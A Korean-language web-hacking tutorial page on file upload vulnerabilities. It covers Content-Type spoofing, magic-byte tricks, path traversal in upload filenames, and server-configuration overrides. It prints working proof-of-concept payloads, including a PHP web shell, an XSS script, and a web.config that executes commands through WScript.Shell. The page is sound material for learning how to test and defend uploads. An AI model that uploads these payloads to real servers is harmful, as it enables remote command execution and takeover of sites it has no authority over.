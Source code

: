 ```yaml
---
title: File Upload Vulnerability
layout: default
parent: Web Penetration Test
nav_order: 2.5
description: "Web hacking"
---
```


# File Upload Vulnerability (파일 업로드 취약점)

{: .no_toc }

## Table of Contents
{: .no_toc .text-delta }

1. TOC
{:toc}

## What is file upload vulnerability (파일 업로드 취약점이란)

파일 업로드 취약점이란, 웹 서버에서 사용자가 파일을 업로드할때, 파일의 이름, 타입, 내용, 사이즈 등 다양한 정보들을 점검을 안하고 서버에 저장을 할때, 업로드 취약점이 발생 합니다.

웹서버에서 보통 위험한 파일 타입, 속성들을 막지만 이러한 설정을 똑바로 하지않으면 타입 같은경우, 여러 파일타입을 같이 넣어서 웹서버에 혼동을 줄수도 있고, 속성 같은경우, 웹 프록시로 수정하여 우회 할수도 있을것 입니다. 

## What is the impact of file upload vulnerablity (파일 업로드 취약점의 임팩트)

서버가 마비되거나, Remote Command Execution (RCE), 파일 업로드를 트로이젠으로 쓴다거나, 등 같은 다양한 크리티컬한 취약점을 발생 시킬수 있습니다. 

## How web servers handle request for static files (웹 서버에서 Static File의 대한 핸들링)

- Non Executable File (실행이 불가능한 파일): 웹 서버에서 파일 컨텐츠를 HTTP Resposne로 그냥 보낼수 있습니다. 이러한 경우, 웹 서버에서 해당 파일을 읽게되는 경우 Stored XSS 취약점이 발생 할 수 있습니다.


{: .important-title }
> Proof of Concept
> {: .label .label-blue }
>```
><html>
><script>alert("NO FILTER?")
></html>
>```

- Executable File (실행이 가능한 파일): 웹 서버에서 해당 파일 컨텐츠를 실행이 가능하게 시켰을 경우, 서버는 스크립트를 실행하기 전에 HTTP 요청의 헤더와 파라미터를 기반으로 변수를 할당합니다. 그 결과로 생성된 출력물은 HTTP 응답으로 클라이언트에게 전송 될수 있습니다.

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
>```
><?php echo system($_GET['cmd']); ?>
>```

위의 POC경우, `?cmd=` 파라미터로 해당 코드를 실행 할수 있을것 입니다.

- Executable File (실행이 가능한 파일): 웹 서버에서 파일을 실행하도록 설정이 안되어 있다면, 일반적으로 Error로 응답합니다. 하지만 경우에 따라서 파일이 Plain Text로 클라이언트에게 그대로 전송되게 할수 있습니다.


## Bypassing file type validation (파일 타입 우회)

보통 파일 업로드를 진행을 할때, `Content-Type` 헤더가 들어갑니다. 이러한 헤더는 웹 서버에게 "MIME" 타입을 알려주는 역할을 하게 됩니다. 그러면 웹서버가 `Content-Type` 헤더를 보고 예측되는 "MIME" 타입이 맞게 되면 파일 업로드를 허용합니다.

허나 문제가 발생하는 경우는 웹서버가 파일의 실제 내용을 점검을 안하고 오로지 "MIME" 타입과 `Content-Type` 매칭을 보고 판단을 할경우 `Content-Type`을 바꿔서 해당 필터링을 우회 할 수 있습니다. 

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
>```
>Content-Type: image/jpeg 
>```

### Magic Byte bypass (매직바이트 우회)

Magic Byte(매직 바이트)는 File Signature처럼 앞에 처음 몇몇 바이트가 파일타입을 인식하는데 쓰이는것을 의미합니다.

매직바이트를 확인할려면 다음과 같은 명령어를 써볼수 있습니다.

```
file website.jpg # 파일 타입 확인 명령어
xxd website.jpg | head # 헥스데이터 명령어
```

여러 매직바이트들이 파일타입들에 따라 존재하게 되는데 다음과 같이 `.txt`파일을 `GIF87a`라는 매직바이트를 앞에 넣어서 사진파일로 인식시킬수 있습니다.

```
echo -n -e 'GIF87a' > file.txt
```
## File Upload from in user accessible directory (파일 업로드 위치 우회)

웹서버에서 악성파일 업로드를 성공적으로 업로드를 했다 하여도, 여러 문제점들이 아직 남아있을수 있습니다.

1. 업로드한 파일이 실행이 가능한가?
2. 업로드한 파일의 PATH를 아는가?

이러한 것들을 확인하기 위해서는 확실히 알아야될 것은 업로드가 되는 파일의 PATH를 알아야된다는 것입니다.

이러한 우회로 파일업로드를 할때, `filename` 에서 Path Traversal 공격을 시도해 볼수 있습니다. 

```
Content-Disposition: form-data; name="avatar"; filename="../../../../../../../wwwroot/exploit.php"
```
웹사이트를 돌아다니면서 찾은 PATH들로 Path Traversal공격을 시도할수 있을것 입니다.

## Overriding the Server Configuration (서버 설정 파일을 업로드해서 우회)

앞서 말했다 싶이 웹 서버는 해당 파일을 실행하게 설정이 되지 않는이상 파일을 실행시키진 않습니다. 예를들어서 아파치 서버에 `.php` 파일을 사용자의 요청에 따라 실행하고 싶을 경우 `/etc/apache2/apache2.conf` 파일에 다음과 같은 설정을 했을것입니다.

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```

이러한 설정 파일 같이 여러 config파일들을 업로드해서 웹서버가 파일을 실행시키거나 config 파일 자체에서 코드를 실행 시킬수 있게도 할 수 있습니다.

### web.config CE example:

Proof of Concept:

```html
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Dim oShell, sCommand
sCommand = "echo 'Hello Test'"
Set oShell = Server.CreateObject("WScript.Shell")
oShell.Run sCommand, , True
Set oShell = Nothing
Response.write("<!-"&"-")
%>
-->
```
### .htaccess CE 

`.htaccess` 는 아파치 웹 서버 디렉토리를 설정하는 기본적인 파일입니다. 만약 웹서버에 `.htaccess`를 Override 할 수 있다면, 다음과 같은 침투테스팅들을 수행 할수 있습니다.

1. `AddType application/x-httpd-php .txt`를 `.htaccess` 파일을 올려 덮어씌운다음 `webshell.txt`등으로 `txt`파일을 업로드 하였지만 php로 실행시킬수 있을것 입니다.

2. `php_flag engine off`를 사용할 경우, 엔진을 종료시켜 php코드가 유출이 됩니다.

## Reference
1. https://kangsecu.tistory.com/99
